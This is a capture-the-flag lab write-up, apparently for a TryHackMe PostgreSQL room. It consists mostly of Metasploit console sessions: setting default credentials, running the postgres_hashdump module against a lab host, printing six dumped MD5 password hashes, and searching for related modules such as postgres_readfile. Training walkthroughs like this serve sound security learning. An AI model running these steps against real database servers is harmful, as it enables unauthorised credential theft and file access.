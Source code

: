 - and exploit
```bash
msf6 auxiliary(admin/postgres/postgres_sql) > use 15
msf6 auxiliary(scanner/postgres/postgres_hashdump) > options

Module options (auxiliary/scanner/postgres/postgres_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  postgres         yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS    10.10.51.200     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as
```
- msf6 auxiliary(scanner/postgres/postgres_hashdump) > set password password
- password => password
# How many user hashes does the module dump? 
- 6
```bash
msf6 auxiliary(scanner/postgres/postgres_hashdump) > exploit

[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

# What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?
- #10 auxiliary/admin/postgres/postgres_readfile
```bash
msf6 auxiliary(scanner/postgres/postgres_hashdump) > search postgres

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   0   auxiliary/server/capture/postgresql                                          normal     No     Authentication Capture: PostgreSQL
   1   post/linux/gather/enum_users_history                                         normal     No     Linux Gather User History
   2   exploit/multi/http/manage_engine_dc_pmp_sqli                2014-06-08       excellent  Yes    ManageEngine Desktop Central / Password Manager LinkViewFetchServlet.dat SQL Injection
```